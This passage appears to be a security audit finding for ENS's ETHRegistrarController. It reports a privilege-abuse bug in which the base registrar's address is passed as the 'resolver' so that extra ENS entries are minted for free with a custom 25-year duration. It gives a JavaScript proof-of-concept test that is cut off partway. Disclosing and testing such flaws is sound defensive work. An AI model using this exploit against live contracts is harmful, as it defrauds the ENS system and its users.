 The single exploit I am showing is already very bad, but I expect there will be more if this is left in. An example of a potential hack is that some of the functions in other ENS contracts (which give the RegistrarController elevated privilege) have dynamic types as the first variables—if users can generate a hash that is a low enough number, they will be able to unlock more exploits in the ENS ecosystem because of how dynamic types are abi encoded. Other developers will probably also trust the `ETHRegistrarController.sol`, so other unknown dangers may come down the road.

The exploit I made (full code in PoC) can mint another ENS entry and keep it for as long as it wants, without paying more—will show code below.

### [](#proof-of-concept-12)Proof of Concept

Put this code in the `TestEthRegistrarController.js` test suite to run. I just appended this to tests at the bottom of file.

I called the `BaseRegistrarImplementation.register` function with the privileges of `ETHRegistrarController` by passing the base registrar’s address as the `resolver` param in the `ETHRegistrarController.register` function call. I was able to set a custom duration at no additional cost.

The final checks of the PoC show that we own two new ENS entries from a single `ETHRegistrarController.register` call. The labelhash of the new bogus ENS entry is the nodehash of the first registered ENS entry.

      it('Should allow us to make bogus erc721 token in ENS contract', async () => {
        const label = 'newconfigname'
        const name = `${label}.eth`
        const node = namehash.hash(name)
        const secondTokenDuration = 788400000 // keep bogus NFT for 25 years;
    
        var commitment = await controller.makeCommitment(
          label,
          registrantAccount,
          REGISTRATION_TIME,
          secret,
          baseRegistrar.address,
          [
            baseRegistrar.interface.encodeFunctionData('register(uint256,address,uint)', [
              node,
              registrantAccount,
              secondTokenDuration
            ]),
          ],
          false,
          0,
          0
        )
        var tx = await controller.commit(commitment)
        expect(await controller.commitments(commitment)).to.equal(
          (await web3.eth.getBlock(tx.blockNumber)).timestamp
        )
    
        await evm.advanceTime((await controller.minCommitmentAge()).toNumber())
        var balanceBefore = await web3.eth.getBalance(controller.address)
    